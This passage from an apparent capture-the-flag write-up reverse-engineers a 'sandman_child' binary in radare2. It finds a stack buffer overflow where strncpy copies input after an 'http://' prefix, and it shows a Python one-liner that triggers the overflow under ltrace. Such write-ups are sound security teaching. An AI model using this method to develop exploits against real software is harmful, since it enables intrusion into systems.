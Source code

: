 ```
│           0x00400bb0      4881ec300200.  sub rsp, 0x230
│           0x00400bb7      4889bdd8fdff.  mov qword [rbp-local_69], rdi
```

So let's take a closer look at the function calls:

```
│           0x00400bd3      ba07000000     mov edx, 7
│           0x00400bd8      be96114000     mov esi, str.http:__        ; "http://" @ 0x401196
│           0x00400bdd      4889c7         mov rdi, rax
```

So apparently our input must start with the string `http://`. And then at the
end of the function we have:

```
│  └──────> 0x00400c7b      488b85d8fdff.  mov rax, qword [rbp-local_69]
│       │   0x00400c82      4883c007       add rax, 7
│       │   0x00400c86      488945e8       mov qword [rbp-local_3], rax
│       │   0x00400c8a      488b45e8       mov rax, qword [rbp-local_3]
│       │   0x00400c8e      4889c7         mov rdi, rax
│       │   0x00400c91      e81afdffff     call sym.imp.strlen
```

Which calls `strlen` on the user provided data + 7, ignoring the `http://`
prefix. Then there is a call to `strncpy` which uses the string length of
the userinput and copies it onto the stack.

```
│       │   0x00400c96      4889c2         mov rdx, rax                ; size_t n == strlen(userinput+7)
│       │   0x00400c99      488b4de8       mov rcx, qword [rbp-local_3] ; char* src = userinput+7
│       │   0x00400c9d      488d85e0fdff.  lea rax, qword [rbp-local_68] ; char* dest = somewhere on the stack
│       │   0x00400ca4      4889ce         mov rsi, rcx
│       │   0x00400ca7      4889c7         mov rdi, rax
│       │   0x00400caa      e8b1fcffff     call sym.imp.strncpy
```

Classic stack based buffer overflow.

### Exploiting the Child Process

First of all I created a patched binary, that skips the forking and changes
`pipefd[0]` to `0`, so that I can directly communicate with the child process.
This is just a matter of writing a lot of `nop` instructions with radare. I
also remove the call to `alarm`, because that would be very annoying during
debugging. I then confirmed that I can trigger the vulnerability using `ltrace`.

```
python -c "print(chr(0xe) + ')\x00\x00\x00' + 'http://ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')" | ltrace ./sandman_child
__libc_start_main(0x400e7f, 1, 0x7fff635846f8, 0x401110 <unfinished ...>
pipe(0x7fff635845e0)                                                                                  = 0
getpid()                                                                                              = 32408
signal(SIGALRM, 0x400b7d)                                                                             = 0
read(0, "\016", 1)                                                                                    = 1
read(0, ")", 4)                                                                                       = 4
calloc(42, 1)                                                                                         = 0x1cee010
read(0, "http://ABCDAAAAAAAAAAAAAAAAAAAAA"..., 41)                                                    = 41
```